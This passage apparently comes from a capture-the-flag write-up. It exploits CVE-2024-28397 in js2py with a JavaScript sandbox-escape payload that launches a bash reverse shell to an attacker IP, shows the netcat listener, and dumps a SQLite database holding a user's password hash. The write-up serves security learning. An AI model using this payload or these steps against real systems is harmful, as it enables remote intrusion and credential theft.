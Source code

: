 ## User Exploitation

We find `CVE-2024-28397` online, which is a vulnerability in `js2py` that allows for remote code execution.

We set up a listener to catch the reverse shell:

```bash
nc -lvnp 443
```

We run the following code in the web application in port 8000:

```javascript
let cmd = "bash -c \"bash -i >& /dev/tcp/10.10.14.216/443 0>&1\""
let hacked, bymarve, n11=11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)

n11
```

If nothing has gone wrong, we should have a reverse shell connection established:
```bash
whoami
```
```
app
```

It looks like we have to migrate to user `marco`.

We find some hashed credentials in database:
```bash
sqlite3 instance/users.db .dump
```
```
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE user (
        id INTEGER NOT NULL, 
        username VARCHAR(80) NOT NULL, 
        password_hash VARCHAR(128) NOT NULL, 
        PRIMARY KEY (id), 
        UNIQUE (username)
);
INSERT INTO user VALUES(1,'marco','649c9d65a206a75f5abe509fe128bce5');
```